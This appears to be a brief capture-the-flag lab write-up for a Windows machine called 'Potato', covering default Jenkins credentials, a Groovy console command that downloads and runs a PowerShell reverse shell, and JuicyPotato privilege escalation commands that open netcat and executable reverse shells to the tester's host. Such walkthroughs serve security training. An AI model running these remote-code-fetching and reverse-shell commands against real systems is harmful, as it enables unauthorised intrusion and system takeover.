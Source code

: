 ```yaml
---
tags: [Beginner, Video, Windows]
title: Potato
created: '2020-07-04T17:00:13.835Z'
modified: '2020-10-02T17:41:00.275Z'
---
```


# Potato
- IP: `172.31.1.19`
- OS: `Windows`
## Enumeration
### Writeup

We find a Jenkins portal at port 8080 and `admin:admin` works as credentials
At `http://172.31.1.19:8080/script`, we can execute Groovy scripts.
```
def process = "PowerShell.exe -exec bypass -c \"(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.0.8/reverse.ps1')|iex\"".execute()
println "Found text ${process.text}"
```
We use [this oneliner ps1 revshell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

`JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\ben\desktop\nc.exe -e cmd.exe 10.10.0.8 1234" -t *`

`JuicyPotato -l 1337 -p C:\Users\ben\.jenkins\reverse.exe -t *`
### Commands

